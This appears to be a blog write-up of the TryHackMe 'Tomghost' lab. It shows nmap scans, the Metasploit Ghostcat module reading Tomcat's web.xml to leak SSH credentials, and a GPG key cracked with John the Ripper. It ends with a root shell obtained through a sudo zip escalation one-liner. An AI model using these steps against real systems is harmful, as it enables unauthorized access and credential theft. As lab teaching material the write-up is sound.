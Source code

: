 ```yaml
---
title: "Tomghost"
date: 2025-01-23
image: /assets/img/tryhackme/Tomghost/Tomghost_image.jpg
description: Writeup of the TryHackMe-CTF Tomghost
categories: [Tryhackme, Easy]
tags: [linux, enumeration, vulnerability, gpg, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Tomghost</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/tomghost">https://tryhackme.com/r/room/tomghost</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Tomghost.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:12 EST
Nmap scan report for 10.10.142.154
Host is up (0.039s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,53,8009,8080 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:13 EST
Nmap scan report for 10.10.142.154
Host is up (0.040s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
from here I started with port 8080 because the `Tomcat/9.0.30` sounds intersting.

## Port 8080 Analysis
We can see a default installation of Apache Tomcat with version 9.0.30. A quick Google serach for potential vulnerabilites gave me an <a href="https://www.exploit-db.com/exploits/49039">exploit-db</a> entry. From here I started Metasploit and searched for a vulnerability called `ghostcat`.
```bash
msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read
```
This seemed promising, so I loaded the module, set the required options and ran the exploit (I cutted the exploit output for readability):
```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)

msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.142.154
rhosts => 10.10.142.154

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
[*] Running module against 10.10.142.154

[*** removed ***]

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:[removed]
  </description>

</web-app>

[+] 10.10.142.154:8009 - File contents save to: /home/kali/.msf4/loot/20250123051937_default_10.10.142.154_WEBINFweb.xml_229749.txt
[*] Auxiliary module execution completed
```
The output provide some credentials which we could use to connect with ssh:
```bash
$ ssh skyfuck@10.10.142.154
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{*** removed ***}
```
I was able to retrieve the user flag and found another username, so let's get his credentials

## Privilege Escalation Merlin
There where two intersting files:
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
I tried to crack the private keys hash to decrypt the `credential.pgp`:
```bash
$ gpg2john tryhackme.asc > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
  Using default input encoding: UTF-8
  Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
  Cost 1 (s2k-count) is 65536 for all loaded hashes
  Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
  Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  alexandru        (tryhackme)
  1g 0:00:00:00 DONE (2025-01-23 05:26) 16.66g/s 17866p/s 17866c/s 17866C/s [removed]
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
$ gpg --import tryhackme.asc
  gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
  gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
  gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
  gpg: key 8F3DA3DEC6707170: secret key imported
  gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
$ gpg --decrypt credential.pgp
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
        "tryhackme <stuxnet@tryhackme.com>"
  merlin:[removed]
```
With the credentials I was able to ssh in as merlin
```bash
$ ssh merlin@10.10.142.154
merlin@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/zip/">gftobins</a> gave me all I needed:
```bash
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
